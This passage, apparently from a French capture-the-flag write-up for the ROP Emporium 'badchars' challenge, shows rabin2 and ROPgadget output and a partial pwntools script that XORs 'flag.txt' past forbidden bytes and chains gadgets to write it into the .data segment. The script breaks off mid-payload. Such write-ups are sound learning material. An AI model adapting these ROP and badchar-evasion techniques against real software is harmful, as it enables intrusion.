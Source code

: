 Nous pouvons alors xorer la string flag.txt mais elle ne sera pas valide. Alors comment la unxorer ?

Commençons l'exploitation...

- Trouver un segment accessible en écriture ainsi que son adresse :

```py
❯ rabin2 -S badchars
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
<...>
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
<...>
```
- Trouver des gadgets permettant de setup flag.txt et l'adresse du segment data ou bss dans des registres et de move le flag.txt dans le segment:

```py
❯ ROPgadget --binary badchars
Gadgets information
============================================================
<...>
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
<...>
```

Nous pouvons faire pointer les registres r12 pour le flag.txt, r13 pour l'adresse du segment data et compléter r14 et r15 avec des null bytes grâce aux `pop <opérande>`.


```py
#!/usr/bin/python2
from pwn import *

context.update(arch="amd64", os="linux", bits=64)
p = process("./badchars", stdin=PTY)
elf = context.binary = ELF("./badchars")
rop = ROP("./badchars")

data_segment = elf.symbols["data_start"]+7 # add 7 bytes to LSB because when you start at the start address the 6th byte is badchar (0x60102e ==> 2e = .)
pop_r14_r15 = p64((rop.find_gadget(["pop r14", "pop r15", "ret"]))[0])
payload = None


def xor_flag(flag):
    flag_list = list(flag)
    for i in range(0, len(flag_list)):
        flag_list[i] = chr(ord(flag_list[i])^0x02)
    return "".join(flag_list)


def write_xored_flag_string_in_segment():
    global data_segment, payload
    padding = "\x90"*40

    xored_flag = xor_flag("flag.txt")
    pop_r12_r13_r14_r15 = p64((rop.find_gadget(["pop r12", "pop r13", "pop r14", "pop r15", "ret"]))[0])
    mov_r13_r12 = p64(0x400634)

    payload = padding
    payload += pop_r12_r13_r14_r15
```